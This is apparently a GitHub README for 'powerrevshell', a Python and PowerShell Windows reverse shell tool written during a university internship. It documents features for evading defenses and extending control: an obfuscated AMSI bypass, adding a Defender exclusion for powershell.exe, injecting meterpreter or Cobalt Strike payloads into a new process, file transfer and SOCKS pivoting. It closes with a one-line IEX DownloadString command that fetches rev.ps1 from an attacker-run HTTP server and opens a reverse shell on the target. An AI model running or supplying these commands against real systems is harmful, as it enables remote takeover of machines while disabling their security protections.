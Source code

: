 # Introduction

A small windows reverse shell project that i build during my university intership.\
It is written with Python and Powershell.\
33333333333333333333333333333333333333333 but also 7 (\~^-^)\~

# Installation

To simply install it:

1.  Clone this repo with the following code
    ```
    git clone https://github.com/Fedami/powerrevshell---rev.ps1
    ```
3.  Run the following code to install all the requirements
    ```
    pip install -r requirements.txt
    ```
3.  Run the following code to make the .py file executable or simply run it with python
    ```
    chmod +x powerrevshell.py or python3 powerrevshell.py
    ```
## Powerrevshell

![powerrevshell-start-short](https://user-images.githubusercontent.com/82824055/173030103-c57222f4-fc15-4766-bd19-64d1963d9df3.png)

# Optional argument
  -h, --help        &emsp;&emsp;&ensp;    show this help message and exit\
  -f &emsp;&emsp;&emsp;&emsp;&emsp;&emsp; smb folder for transfer and execute funciontality\
  &emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;                      Enter folder name [Default: root]\
  -i local ip    &emsp;&nbsp;    Enter your local IP [Default: 192.168.0.114]\
  -p port           &emsp;&emsp;&emsp;&ensp;&nbsp;    listener port for reverse shell [Default: 9001]\
  -wp webport       &emsp;&nbsp;    listener port for http server [Default: 8000]\
  -sp smbport       &emsp;&ensp;     listener port for smb server [Default: 445]\
  -http             &emsp;&emsp;&emsp;&emsp;&ensp;&nbsp;    Start http web server [Default: 8000]\
  -smb              &emsp;&emsp;&emsp;&emsp;&ensp;&nbsp;    Start smb web server [Default: 445]\
  -k                &emsp;&emsp;&emsp;&emsp;&emsp;&emsp;    If ports are being used it will kill the process to force the exexcution.

# Functionality

Powerrevshell.py comes with several function accessible via the "menu" option:

![powerrevshell-menu](https://user-images.githubusercontent.com/82824055/171123395-27647e7f-9853-43e8-adae-8ea33e231bf3.png)

### get - put

The get and put functionality are build using TCPSocket to transfer files between the machines. To prevent data loss, on each message, are sent support string and md5sum to know if the actual bytes are sent correctly.

```
get <file.txt> / put <file.txt>
```

### smb-get

The smb-get functionality simply transfer a file using the Copy-Item cmdlet to the smbserver started using impacket-smbserver.\
If you didn't start the program with the -smb switch or started youreself (impacket-smbserver) the command will fail.

```
smb-get <file.txt>
```

### down-file

The down-file functionality simply download a file from the current machine to the target machine using HTTP server with python.
If you didn't start the program with the -http switch or started youreself (python -m http.server 8000) the command will fail.

```
down-file <file.txt>
```

### load

The down-file functionality simply load a powershell script from the current machine to the target machine using HTTP server with python.
If you didn't start the program with the -http switch or started youreself (python -m http.server 8000) the command will fail.

```
load <file.ps1>
```

### amsi-bypass

The amsi-bypass functionality will try to bypass AMSI on the current shell by using the Matt Graeber amsi bypass method obfuscated with two bytes array.

```
amsi-bypass
```

### exclude

The exlucde functionality will try to exclude powershell.exe from defender, admin permission are needed.

```
exclude
```

### payload

The payload functionality will try to create a new process and inject the shell payload that can be meterpreter or cobalt strike...\
The payload must be a cs file.

```
payload <payload.cs>
```

Work used for the socks functionality: [PowerProxy by get-get-get-get](https://github.com/get-get-get-get/PowerProxy).

### socks-start

Socks-start start a socks proxy.

```
socks-start <L-PORT> <P-PORT>
```
You can also omit L-PORT and P-Port, by default L-PORT is 8080 and P-PORT is 1080.

```
socks-start
```

### socks-stop

Socks-stop will stop any running socks on the target machine that was started before.

```
socks-stop
```

### socks

Socks will list if there is a running socks proxy.

```
socks
```

### close

Close will terminate the session by killing the powershell process, if the command exclude was used it will delete the exclusion policy. Also if it was started a socks proxy it will kill it before killing the session.

```
close
```

## Rev.ps1

Rev.ps1 is the powershell script to connect back to us.\
To start the reverse shell run the following code on the target machine.

```
IEX (New-Object System.Net.WebClient).DownloadString('http://<IP>:<PORT>/rev.ps1'); Send-Shell -i <IP> -p <ShellPort>
```

